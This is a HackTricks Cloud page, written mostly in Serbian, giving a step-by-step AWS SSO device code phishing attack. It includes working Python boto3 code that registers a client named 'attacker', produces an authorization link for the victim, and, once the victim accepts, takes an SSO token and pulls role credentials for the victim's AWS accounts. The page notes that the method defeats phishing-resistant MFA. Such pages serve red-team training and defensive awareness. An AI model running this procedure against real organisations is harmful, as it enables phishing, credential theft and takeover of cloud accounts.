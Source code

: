 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Prvobitno predloženo u [**ovom blog postu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), moguće je poslati **link** korisniku koji koristi AWS SSO, koji ako **korisnik prihvati**, napadač će moći da dobije **token za impersonaciju korisnika** i pristup svim rolama kojima korisnik može da pristupi u **Identity Center**.

Da bi se izveo ovaj napad, zahtevi su:

* Žrtva mora koristiti **Identity Center**
* Napadač mora znati **subdomen** koji koristi žrtva `<victimsub>.awsapps.com/start`

Samo sa prethodnim informacijama, **napadač će moći da pošalje link korisniku** koji, ako bude **prihvaćen**, omogućava **napadaču pristup AWS korisničkom** nalogu.

### Napad

1. **Pronalaženje subdomena**

Prvi korak napadača je da sazna koji subdomen koristi kompanija žrtve u svom Identity Center-u. To se može uraditi putem **OSINT** ili **pogađanja + BF**, jer većina kompanija ovde koristi svoje ime ili varijaciju svog imena.

Sa ovom informacijom, moguće je dobiti region u kojem je Identity Center konfigurisan:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generišite link za žrtvu i pošaljite ga**

Pokrenite sledeći kod da generišete AWS SSO login link kako bi žrtva mogla da se autentifikuje.\
Za demo, pokrenite ovaj kod u python konzoli i ne izlazite iz nje jer će vam kasnije biti potrebni neki objekti za dobijanje tokena:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Pošaljite generisanu vezu žrtvi koristeći svoje sjajne veštine socijalnog inženjeringa!

3. **Sačekajte da žrtva prihvati**

Ako je žrtva **već bila prijavljena na AWS**, samo će morati da prihvati dodeljivanje dozvola, ako nije, moraće da **se prijavi i zatim prihvati dodeljivanje dozvola**.\
Ovako izgleda promp danas:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Dobijte SSO pristupni token**

Ako je žrtva prihvatila promp, pokrenite ovaj kod da **generišete SSO token imitujući korisnika**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO pristupni token je **važeći 8h**.

5. **Imitirati korisnika**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Zanimljivo je znati da prethodni napad **radi čak i ako se koristi "nephishable MFA" (webAuth)**. To je zato što prethodni **tok rada nikada ne napušta korišćeni OAuth domen**. Za razliku od drugih phishing napada gde korisnik mora da zameni domen za prijavu, u ovom slučaju je tok rada sa kodom uređaja pripremljen tako da je **kod poznat uređaju** i korisnik može da se prijavi čak i na drugom računaru. Ako se prihvati poruka, uređaj, samo **znajući inicijalni kod**, će moći da **dobije akreditive** za korisnika.

Za više informacija o ovome [**proverite ovaj post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
